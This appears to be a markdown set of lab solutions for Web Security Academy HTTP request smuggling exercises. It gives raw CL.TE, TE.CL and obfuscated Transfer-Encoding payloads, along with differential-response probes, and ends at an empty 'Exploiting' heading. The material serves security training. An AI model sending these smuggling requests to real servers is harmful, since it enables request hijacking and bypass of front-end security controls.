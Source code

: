 # HTTP request smuggling

## How to perform an HTTP request smuggling attack

### HTTP request smuggling, basic CL.TE vulnerability
1st request
```
POST /post/comment HTTP/1.1
...
Transfer-Encoding: chunked

0

G
---
HTTP/1.1 400 Bad Request
Content-Type: application/json
Keep-Alive: timeout=0
Connection: close
Content-Length: 19

"Missing parameter"
```

2nd request
```
POST /post/comment HTTP/1.1
...
Transfer-Encoding: chunked

0

G
---
HTTP/1.1 403 Forbidden
Content-Type: application/json
Connection: close
Keep-Alive: timeout=0
Content-Length: 27

"Unrecognized method GPOST"
```

### HTTP request smuggling, basic TE.CL vulnerability
Send twice
```
POST / HTTP/1.1
Host: acba1f431f8efb5580ada06100c10063.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

### HTTP request smuggling, obfuscating the TE header
Send twice
```
POST / HTTP/1.1
Host: ac131f3b1f7bfd5b80f42b080013003d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: hello

12
GPOST / HTTP/1.1

0


```

## Finding HTTP request smuggling vulnerabilities

### HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
Send twice
```
POST / HTTP/1.1
Host: ac251f381f1a5d6a804fc8a300f20094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x


```

### HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
Send twice
```
POST / HTTP/1.1
Host: acf51f6c1e75983c805a039b004500bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

## Exploiting HTTP request smuggling vulnerabilities